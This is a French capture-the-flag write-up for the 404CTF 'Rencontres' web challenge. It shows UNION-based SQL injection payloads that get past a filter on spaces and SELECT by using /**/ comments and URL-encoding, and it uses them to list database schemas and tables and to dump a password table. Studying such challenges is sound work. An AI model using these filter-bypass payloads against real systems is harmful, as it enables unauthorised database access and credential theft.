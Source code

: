 ```yaml
---
title: CTFs | 404CTF | Web | Le braquage | Rencontres
author: BatBato
date: 2022-11-07
categories: [CTFs, 404CTF, Web, Rencontres]
tags: [404CTF, Web]
permalink: /CTFs/404CTF/Web/Le_braquage/Rencontres
---
```


# Rencontres

Nous devons ici faire face à certain filtres. Le ```SELECT``` et les espaces ne sont pas autorisé par exemple.
En faisant un peut de recherche on tombe sur le site de [PortSwigger](https://portswigger.net/support/sql-injection-bypassing-common-filters).

Nous trouvons en bas de la page comment faire pour qu'il n'y ai pas d'espaces dans la commande (utilisation de /\*\*/) et remplaçons le ```SELECT``` par ```%53%45%4c%45%43%54```. Ce qui nous donne : ```'/**/UNION/**/%53%45%4c%45%43%54/**/1,2,schema_name/**/from/**/INFORMATION_SCHEMA.SCHEMATA/**/#```

![image](https://user-images.githubusercontent.com/73934639/174613360-b6ba38e9-5bd0-4935-b81b-8233f3474a0b.png)




On se dirige vers la base de donnée ```RencontreVendeurs``` (```'/**/UNION/**/%53%45%4c%45%43%54/**/1,TABLE_NAME,TABLE_SCHEMA/**/from/**/INFORMATION_SCHEMA.TABLES/**/where/**/table_schema='RencontreVendeurs'#```) : 

![image](https://user-images.githubusercontent.com/73934639/174613769-e79bbba4-078a-4c44-97b1-acc8c94fe47a.png)

Nous n'avons plus qu'à récupérer les informations de la table password et de la table date.

Commençons par la table ```password``` (même étaps que pour la partie 2 mais avec le filtres):

![image](https://user-images.githubusercontent.com/73934639/174615601-2d23ce63-41bf-40fe-818d-56ca7516da88.png)



Il ne nous reste plus que la table ```Rdv``` :

![image](https://user-images.githubusercontent.com/73934639/174616019-ddd40ae8-1a8e-4091-98de-f6efb8abc94e.png)



Nous avons maintenant tout ce qu'il nous faut.
